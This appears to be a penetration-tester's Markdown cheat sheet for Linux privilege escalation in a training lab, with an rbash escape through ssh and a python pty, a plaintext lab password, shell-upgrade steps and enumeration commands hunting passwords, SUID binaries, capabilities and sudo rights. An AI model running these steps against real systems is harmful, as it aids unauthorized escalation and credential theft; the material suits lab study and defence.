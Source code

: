 # Privilege_Escalation_Linux

## reference

<https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>

### GTFOBins

<https://gtfobins.github.io/>

### PEASS-ng

<https://github.com/carlospolop/PEASS-ng>

## full shell

### rbash bypass

```bash
ssh mindy@172.16.33.35 "export TERM=xterm; python -c 'import pty; pty.spawn(\"/bin/bash\")'"
P@55W0rd1!2@
```

### full pty

```bash
bash

stty -a
speed 38400 baud; rows 48; columns 176; line = 0;

control + z
stty raw -echo
fg
```

if use rbash bypass to get a ssh shell, we get a full pty now!!! and don't need to use the following command.

```bash
export SHELL=bash
export TERM=xterm
stty rows 48 columns 176
```

## general

- 发行版/内核
- 进程
- cron
- 可写目录，文件 /etc/passwd
- SUID
- 用户主目录
- env PATH
- sudo -s / sudo -l
- getcap

## Information Gathering

```bash
id
hostname
cat /etc/passwd | grep sh$
grep -nri pass . 2>/dev/null

uname -a
searchsploit ubuntu 16.04 kernel

ps -ef
ps aux

ip a
ip r
ss -aptun

sudo iptables -L

crontab -l
ls -al /var/log/cron

find / --witeable -type f -user root -perm -u=x 2>/dev/null
```

## SUID

```bash
find / -perm -u=s -type f 2>/dev/null
for i in $(find / -perm -u=s -type f 2>/dev/null); do strings $i 2>/dev/null | grep -i "OS{"; done
```

## capability

```bash
getcap -r / 2>/dev/null
```

## sudo

```bash
sudo -l
```
